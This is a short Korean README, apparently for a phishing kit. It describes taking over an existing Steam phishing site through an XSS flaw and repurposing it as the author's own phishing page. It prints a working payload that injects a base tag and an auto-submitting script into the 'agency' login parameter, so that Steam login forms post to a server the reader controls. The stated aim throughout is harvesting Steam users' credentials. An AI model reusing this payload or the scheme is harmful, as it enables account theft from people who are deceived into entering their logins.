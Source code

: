 중국인 누군가가 만들어 둔 STEAM 피싱사이트에 XSS 취약점을 사용하여 내 피싱사이트로 이용해보자!
============================================================================================
1.DB파일은 초기화 완료. superuser은 사용자가 만들어 사용하자!
2.
https://steampoweroel.me/login?
agency="><base href="
http://본인의서버URL/form/login
"><script>function login(){document.getElementById('form').submit();}</script><br"
을 사용하여 적용시키면 끝.
3. https://steampoweroel.me는 피싱사이트! 스팀의 공식 사이트는 .com이다.
